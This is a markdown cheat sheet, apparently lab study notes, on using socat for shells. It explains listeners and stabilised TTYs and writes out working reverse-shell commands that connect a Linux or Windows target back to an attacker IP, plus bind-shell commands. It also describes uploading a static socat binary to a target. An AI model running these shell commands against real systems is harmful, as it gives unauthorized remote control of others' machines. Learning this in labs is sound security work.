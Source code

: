 Socat is similar to netcat in some ways, but fundamentally different in many others. The easiest way to think about socat is as a connector between two points. In the interests of this room, this will essentially be a listening port and the keyboard, however, it could also be a listening port and a file, or indeed, two listening ports. All socat does is provide a link between two points -- much like the portal gun from the Portal games!
# Useful Commands:
## Reverse Shells

The following command  `socat TCP-L:<port> -` is taking two points (a listening port, and standard input) and connecting them together. The resulting shell is unstable, but this will work on either Linux or Windows and is equivalent to `nc -lvnp <port>`
### Basic Reverse Shell

To run a basic reverse shell listener in socat we use the following command:

```bash
socat TCP-L:<port> -
```

To connect Back from a Linux machine we use:

```bash
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"
```

On Windows we would use this command to connect back:

```bash
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
```

The "pipes" option is used to force powershell (or cmd.exe) to use Unix style standard input and output.
### Stabilised Reverse Shell

This will only work when the target is Linux, but is _significantly_ more stable reverse shell listener, This is approximately equivalent to using the Ctrl + Z, `stty raw -echo; fg` trick with a netcat shell -- with the added bonus of being immediately stable and hooking into a full tty:

```bash
socat TCP-L:<port> FILE:`tty`,raw,echo=0
```  

Let's break this command down into its two parts. As usual, we're connecting two points together. In this case those points are a listening port, and a file. Specifically, we are passing in the current TTY as a file and setting the echo to be zero. This is approximately equivalent to using the Ctrl + Z, `stty raw -echo; fg` trick with a netcat shell -- with the added bonus of being immediately stable and hooking into a full tty.

**The first listener can be connected to with any payload; however, this special listener must be activated with a very specific socat command. This means that the target must have socat installed. Most machines do not have socat installed by default, however, it's possible to upload a [precompiled socat binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true), which can then be executed as normal.**

The special command is as follows:

```bash
socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

The first part is easy -- we're linking up with the listener running on our own machine. The second part of the command creates an interactive bash session with  `EXEC:"bash -li"`. We're also passing the arguments: pty, stderr, sigint, setsid and sane:

- **pty**, allocates a pseudoterminal on the target -- part of the stabilisation process
- **stderr**, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)  
    
- **sigint**, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
- **setsid**, creates the process in a new session
- **sane**, stabilises the terminal, attempting to "normalise" it.

If, at any point, a socat shell is not working correctly, it's well worth increasing the verbosity by adding `-d -d` into the command. This is very useful for experimental purposes, but is not usually necessary for general use.
## Bind Shells

On a Linux target we would use the following command:

```bash
socat TCP-L:<PORT> EXEC:"bash -li"
```  

On a Windows target we would use this command for our listener:

```bash
socat TCP-L:<PORT> EXEC:powershell.exe,pipes
```  

We use the "pipes" argument to interface between the Unix and Windows ways of handling input and output in a CLI environment.  

Regardless of the target, we use this command on our attacking machine to connect to the waiting listener.

```bash
socat TCP:<TARGET-IP>:<TARGET-PORT> -
```